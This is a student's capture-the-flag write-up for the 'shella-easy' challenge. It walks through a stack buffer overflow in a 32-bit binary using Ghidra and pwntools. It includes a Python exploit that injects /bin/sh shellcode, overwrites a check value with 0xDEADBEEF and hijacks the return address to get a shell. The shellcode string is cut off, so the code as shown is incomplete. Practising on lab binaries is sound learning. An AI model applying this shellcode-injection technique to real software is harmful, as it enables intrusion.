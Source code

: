 # This is the documentation for the shella ctf challenge

## Step-by-Step Guide

This document outlines the steps taken to identify and exploit a buffer overflow vulnerability
using tools like Ghidra, virtual environment, and Python. Each step is critical to
understanding the target system, identifying the vulnerability, and creating a succesful
exploit.


### File information:

shella-easy: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked,
interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32,
BuildID[sha1]=38de2077277362023aadd2209673b21577463b66, not stripped



### Security information

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      SymbolsFORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   71 Symbols       No    0               2               shella-easy                                    
                                                                                               

### 3. Identifying the Target Memory Address

**Description:**
Finding the memory address you want to return to after exploiting the buffer overflow is
critical for hijacking. In this case the memory address we want was within the sentence
displayed when the shella-easy program is run.

* **Analyze the Binary:** Using Ghidra to identify the memory address you want to redirect
execution to. Ghidra is also good for knowing how far you are from a desire address and how
much you need to pad it to reach there.

* **Record the Address:** This address will be used later in the payload to overwrite the
return address. We record multiple address in this challenge because we have to bypass certain
obstacles to get to where we wanted. For example in Ghidra we found a conditional statment that
needed the memory address of deadbeef in order for the program to not just exit.


#4. The use of padding and shellcode

**What is cyclic: **
In our explotation code we use a function called cyclic which is a built in function of the
pwntools library. This function is supposed to create a unique pattern of characters in which
we shoud be able to find after inputting it in a function. Using the other built in function
cyclic_find() in which you insert a memory address of where the unique pattern is in memory
and show the distance in which how far away you are. These two tools was helpful in indentifying
how much we needed to pad the code.
 


#5. The exploit code

```python
 from pwn import * 

 # initalizing the process
 
 pw = process("./shella-easy")

 # Recieve data until the > symbol
 
 pw.recvuntil(b'have a')

 the_memory = pw.recv(12)

 # sends data to buffer overflow while also sending the address we want

 payload = b''

 shellcode = ""

 # This shellcode is from: http://shell-storm.org/shellcode/files/shellcode-827.php`
 
 shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0>

 gdb.attach(pw, gdbscript = 'b *0x8048548')

 padding = 100

 #payload += b'A' * 64

 payload += shellcode

 payload += b'A' * (64 - len(shellcode))

 payload += p32(0xDEADBEEF)

 payload += b'B' * 8

 payload += cyclic(padding - len(payload))

 payload += p32(int(the_memory,16))

 pw.sendline(payload)

 print(pw.recvline())

 # allows us to interact with the process
 
 pw.interactive()
 

```


### Conclusion

When going through these steps you realize it is important to know what your objective is
and taking each progress step by step. In order for one block of code to execute it relies on
the execution of another block of code or condition that was cleared earlier. Knowing the
convertions of hexadecimle and binary was important and padding was critical in this challenge.
It's like a puzzle in which you need to find all your pieces in order to create a succesful 
exploitation.
 

